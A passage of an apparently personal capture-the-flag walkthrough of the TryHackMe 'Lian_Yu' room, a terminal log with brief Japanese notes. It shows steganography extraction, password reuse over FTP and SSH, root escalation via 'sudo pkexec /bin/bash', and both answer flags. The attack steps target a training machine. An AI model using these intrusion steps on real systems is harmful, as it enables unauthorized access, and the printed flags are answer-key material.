└─$ xxd Leave_me_alone.png > fix.hex
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ vim fix.hex
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ xxd -r fix.hex > Leave_me_alone.png
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ file Leave_me_alone.png
Leave_me_alone.png: PNG image data, 845 x 475, 8-bit/color RGBA, non-interlaced
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$
vimで直接編集した
そしてなおった
ふざけてるな
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ steghide extract -sf Leave_me_alone.png
Enter passphrase:
steghide: the file format of the file "Leave_me_alone.png" is not supported.
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ steghide extract -sf Queen\'s_Gambit.png
Enter passphrase:
steghide: the file format of the file "Queen's_Gambit.png" is not supported.
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ steghide extract -sf aa.jpg
Enter passphrase:
wrote extracted data to "ss.zip".
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ ls
Leave_me_alone.png "Queen's_Gambit.png" aa.jpg fix.hex ss.zip
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ unzip ss.zip
Archive: ss.zip
inflating: passwd.txt
inflating: shado
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ ls
Leave_me_alone.png "Queen's_Gambit.png" aa.jpg fix.hex passwd.txt shado ss.zip
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***
a small Note about it
Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ file shado
shado: Clarion Developer (v2 and above) memo data
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ cat shado
M3tahuman
steghideのパスフレーズに使えた
passwd.txtとshadoを得た
（詰まったので答え見た）
さっき入ったftp先を見るのがよいらしい
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ ftp vigilante@10.49.165.104
Connected to 10.49.165.104.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||57678|).
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 511720 May 01 2020 Leave_me_alone.png
-rw-r--r-- 1 0 0 549924 May 05 2020 Queen's_Gambit.png
-rw-r--r-- 1 0 0 191026 May 01 2020 aa.jpg
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> pwd
Remote directory: /home
ftp> ls
229 Entering Extended Passive Mode (|||11670|).
150 Here comes the directory listing.
drwx------ 2 1000 1000 4096 May 01 2020 slade
drwxr-xr-x 2 1001 1001 4096 May 05 2020 vigilante
226 Directory send OK.
ftp> exit
よくみるとvigilante以外のユーザーがいる
こいつでM3tahumanを試す
sshで入れました
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ ssh slade@10.49.165.104
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
slade@10.49.165.104's password:
Way To SSH...
Loading.........Done..
Connecting To Lian_Yu Happy Hacking
██╗ ██╗███████╗██╗ ██████╗ ██████╗ ███╗ ███╗███████╗██████╗
██║ ██║██╔════╝██║ ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗ ██║ ██║ ██║ ██║██╔████╔██║█████╗ █████╔╝
██║███╗██║██╔══╝ ██║ ██║ ██║ ██║██║╚██╔╝██║██╔══╝ ██╔═══╝
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝ ╚═╝╚══════╝╚══════╝
██╗ ██╗ █████╗ ███╗ ██╗ ██╗ ██╗██╗ ██╗
██║ ██║██╔══██╗████╗ ██║ ╚██╗ ██╔╝██║ ██║
██║ ██║███████║██╔██╗ ██║ ╚████╔╝ ██║ ██║
██║ ██║██╔══██║██║╚██╗██║ ╚██╔╝ ██║ ██║
███████╗██║██║ ██║██║ ╚████║███████╗██║ ╚██████╔╝
╚══════╝╚═╝╚═╝ ╚═╝╚═╝ ╚═══╝╚══════╝╚═╝ ╚═════╝ #
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
--Felicity Smoak
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User slade may run the following commands on LianYu:
(root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo /usr/bin/pkexec
pkexec --version |
--help |
--disable-internal-agent |
[--user username] PROGRAM [ARGUMENTS...]
See the pkexec manual page for more details.
slade@LianYu:~$ sudo /usr/bin/pkexec --help
pkexec --version |
--help |
--disable-internal-agent |
[--user username] PROGRAM [ARGUMENTS...]
See the pkexec manual page for more details.
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# cat /root/root.txt
Mission accomplished
You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
--DEATHSTROKE
Let me know your comments about this machine :)
I will be available @twitter @User6825
root@LianYu:~#
pkexec使ってrootまでとれました
おわり